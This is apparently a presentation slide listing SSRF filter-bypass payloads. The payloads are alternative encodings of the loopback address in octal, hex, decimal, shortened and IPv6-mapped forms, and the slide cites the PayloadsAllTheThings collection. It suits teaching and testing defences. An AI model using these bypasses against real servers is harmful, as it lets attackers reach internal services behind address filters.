

SSRF - Common Bypass
Common bypass
Payloads of all things
# basics
localhost
127.0.0.1
0.0.0.0
::1

# Others
localhost.
# IPv4 alias
127.1
127.000.000.001
0177.0.0.1
0x7f.0x00.0x00.0x01
2130706433
127.0x0.1

# IPv6 <-> IPv4
::ffff:127.0.0.1
::ffff:7f00:1
reference: github.com/swisskyrepo/PayloadsAllTheThings